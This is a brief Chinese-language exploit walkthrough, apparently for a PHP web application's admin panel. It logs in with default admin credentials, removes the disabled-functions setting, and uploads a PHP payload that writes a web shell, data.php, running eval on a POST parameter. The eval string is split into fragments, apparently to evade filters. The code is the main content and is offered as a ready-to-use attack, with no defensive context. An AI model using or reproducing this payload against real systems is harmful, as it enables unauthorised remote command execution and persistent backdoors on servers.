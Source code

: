 1、使用默认帐号密码admin登入后台，目前最新版本（2023年8月15日）：

2、将系统禁用函数删除：

3、文件上传处上传payload：
```php
<?php
$fp=fopen('data.php','w');
fwrite($fp,'<?php ');
fwrite($fp,'eva');
fwrite($fp,'l($_PO');
fwrite($fp,'ST[');
fwrite($fp,'shell])?>');
fclose($fp);
echo 'ok';
?>
```

4、访问payload

5、目录下会生成木马文件，访问可执行命令


